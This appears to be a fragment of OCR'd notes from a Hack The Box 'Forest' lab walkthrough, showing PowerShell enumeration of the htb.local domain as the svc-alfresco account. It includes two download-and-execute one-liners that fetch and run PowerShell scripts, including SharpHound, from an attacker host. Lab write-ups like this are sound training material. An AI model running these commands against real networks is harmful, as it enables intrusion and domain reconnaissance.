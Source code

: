 C:\Users\svc-alfresco> Get-NetLoggedon -ComputerName htb.local


UserName     : Administrator
LogonDomain  : HTB
AuthDomains  :
LogonServer  : FOREST
ComputerName : htb.local

UserName     : Administrator
LogonDomain  : HTB
AuthDomains  :
LogonServer  : FOREST
ComputerName : htb.local

UserName     : FOREST$
LogonDomain  : HTB
AuthDomains  :
LogonServer  :
ComputerName : htb.local


iex(new-object net.webclient).downloadstring('http://10.10.14.8:80/Get-KerberosServiceTicket.ps1')
iex(new-object net.webclient).downloadstring('http://10.10.14.8:80/SharpHound.ps1')

Get-DomainUser svc-alfresco

C:\Users\svc-alfresco\Documents> Get-DomainUser svc-alfresco
distinguishedname             : CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
memberof                      : CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

neo4j console
